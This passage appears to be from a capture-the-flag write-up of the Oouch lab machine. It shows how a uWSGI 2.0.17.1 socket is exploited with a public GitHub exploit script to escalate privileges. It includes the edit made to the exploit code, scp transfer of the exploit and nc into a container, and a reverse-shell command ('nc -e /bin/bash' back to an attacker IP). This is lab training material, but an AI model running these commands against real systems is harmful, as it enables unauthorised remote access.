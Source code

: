 we find an interesting file in /code/oouch called routes.py

```bash
qtc@aeb4525789d8:/code/oouch$ cat routes.py | grep dbus
import dbus
            bus = dbus.SystemBus()
            block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
```

We see that it is using the dbus interface and we try a few commands but none work as we are not privelaged enough to run them.

we see that uwsgi.ini is running as www-data when we run `ps -aux` so we can take a further look at this.

we check the version number by running

```bash
qtc@aeb4525789d8:/code/oouch$ uwsgi --version
2.0.17.1
```

We search for exploits of this verison and we come accross this exploit on github

[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi\_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)

We change line 18-19

```python
if sys.version_info[0] == 3: import bytes
    s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
```

and replace that with:

```python
s = bytes.fromhex(s)
```

We cannot build our exploit in docker so we head back to our ssh as qtc and upload the files there using wget from our local machine.

We then transfer the exploit and `nc` as we will want to get a connection back on our shell via `scp`.

```bash
qtc@oouch:/tmp$ scp -i /home/qtc/.ssh/id_rsa exploit.py qtc@172.18.0.2:/tmp
exploit.py                                                                                               100% 3658     8.8MB/s   00:00    
qtc@oouch:/tmp$ scp -i /home/qtc/.ssh/id_rsa /bin/nc qtc@172.18.0.2:/tmp
nc
```

Make sure to chmod +x them before transferring otherwise it wont work.

Now that we have everything we need we will run the command.

```bash
qtc@aeb4525789d8:/tmp$ python exploit.py -m unix -u /tmp/uwsgi.socket -c "/tmp/nc -e /bin/bash 172.18.0.1 1234"
[*]Sending payload.
```
